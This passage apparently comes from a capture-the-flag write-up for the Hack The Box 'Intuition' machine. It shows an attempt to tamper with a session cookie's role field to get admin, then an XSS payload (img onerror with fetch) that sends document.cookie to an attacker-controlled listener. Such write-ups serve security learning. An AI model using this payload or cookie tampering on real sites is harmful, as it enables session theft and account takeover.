We have tried cracking this hash but it wasn't successful. 

Let's try changing the **role** from **user** to **admin** and see what happens.

We will **base64** encode the modified following data:

`{"user_id": 6, "username": "jadu", "role": "admin"}|8e8f57556ef8398f42dcbb05bc78b3f8f184f0ff7b0dde60aace0b97cd7216f2`                                        
![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-8.png)

We expected to bypass the login portal after replacing the cookie value with the base64 hash above. 

Unfortunately, nothing happened. Let's restore cookie value to mitigate issue.                                                     
## XSS Cookie Stealing 
### Adam Cookie

Now let's move on to enumerating **report.comprezzor.htb**. 

`/report_bug` will lead us to report submission form:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/intuition/image-6.png)

From some research, we have discovered that this form is vulnerable to XSS Cookie Stealing. 

Let's use the following payload on both fields of the form with out Python server listening:

```html
<img src=x onerror="fetch('http://10.10.14.29:8000/?cookie='+document.cookie)">
```
